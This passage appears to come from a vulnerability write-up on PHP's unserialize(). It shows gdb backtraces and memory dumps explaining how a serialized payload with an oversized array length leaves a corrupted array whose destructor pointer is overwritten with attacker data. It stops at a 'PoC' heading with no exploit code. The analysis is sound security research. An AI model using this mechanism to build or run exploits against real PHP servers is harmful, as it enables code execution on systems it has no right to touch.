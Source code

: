     Value = -244859336
    0x0000000000fdcacb in zend_mm_alloc_small (size=<optimized out>, heap=<optimized out>, bin_num=<optimized out>) at Zend/zend_alloc.c:1261
    1261			heap->free_slot[bin_num] = p->next_free_slot;
    >>> bt
    #0  0x0000000000fdcacb in zend_mm_alloc_small (size=<optimized out>, heap=<optimized out>, bin_num=<optimized out>) at Zend/zend_alloc.c:1261
    #1  _emalloc_56 () at Zend/zend_alloc.c:2336
    #2  0x000000000107f6f7 in _array_init (arg=0x7ffff16673c0, size=2736264714) at Zend/zend_API.c:1060
    #3  0x0000000000e23888 in php_var_unserialize_internal (rval=<optimized out>, p=<optimized out>, max=<optimized out>, var_hash=<optimized out>) at ext/standard/var_unserializer.re:788

From the above backtrace one can see PHP tries to allocate memory for a
`zend_array` of very large length corresponding to `a:9000111000000010:{...`
in `payload.master` ([2]).
This allocation fails a bit later because of an integer overflow in the size
parameter that is detected in `zend_hash_check_size()` called from
`_zend_hash_init()`. As soon as this overflow is detected, PHP starts to
shut down. At this point the contents of the partially initialized `zend_array`
look as follows:

    gdb> c
    Fatal error: Possible integer overflow in memory allocation (2736264714 * 32 + 32) in test.php on line 6
    Hardware access (read/write) watchpoint 2: *0x7ffff167be00

    Value = 1
    0x00000000010b6f6e in i_zval_ptr_dtor (zval_ptr=<optimized out>) at Zend/zend_variables.h:48
    48			if (!--GC_REFCOUNT(ref)) {
    gdb> x/16x 0x00007ffff167be00
    0x7ffff167be00:	0x00000001	0x00008007	0x00000012	0x30303030
    0x7ffff167be10:	0x30303030	0x30303030	0x30303030	0x30303030
    0x7ffff167be20:	0x30303030	0x30303030	0x30303030	0x30303030
    0x7ffff167be30:	0x30303030	0x30303030	0xf167be70	0x00007fff 

During shutdown PHP attempts to destroy its internal objects as well as the
corrupted array shown above. Therefore at some point the arrays own destructor
gets called from `zend_hash_destroy()` which was overwritten with user supplied
contents:
 
```c
ZEND_API void ZEND_FASTCALL zend_hash_destroy(HashTable *ht)
{
// ...
1231 				if (HT_IS_WITHOUT_HOLES(ht)) {
1232 					do {
1233 						ht->pDestructor(&p->val);
1234 					} while (++p != end);
1235 				} else {
// ...
```


# PoC
